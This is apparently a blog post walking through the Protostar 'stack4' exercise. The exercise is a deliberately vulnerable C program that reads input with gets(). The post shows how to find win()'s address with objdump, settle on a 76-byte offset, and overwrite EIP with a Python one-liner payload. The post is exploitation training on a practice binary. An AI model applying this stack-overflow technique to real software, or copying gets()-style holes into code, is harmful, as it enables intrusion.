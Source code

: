 ```yaml
---
layout: post
title: "Overwriting the instruction pointer: protostar stack4"
date: 2018-10-29
categories: jekyll update
---
```


{% highlight c %}
This challenge is similar to the previous one, but with a major difference: 

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
There is a function, win() which we will attempt to call, but we are no longer given a function pointer to overwrite. 

We will need to write to the instruction pointer, in this case, it is specifically called the EIP. To do this, we first need to find the address of the win() function, because that is what we will write to the instruction pointer.

objdump is again perfect for this.

$objdump -D stack4 \| grep win

080483f4 \<win\>:

$

The address in this case is 0x80483f4.

We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot

$python -c 'print "A"*76' | ./stack4 

Segmentation fault

$

A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.

$python -c 'print "A"*75' | ./stack4 

$

Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.

$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4

Code flow successfully changed

Segmentation fault

$

Looks like it works.
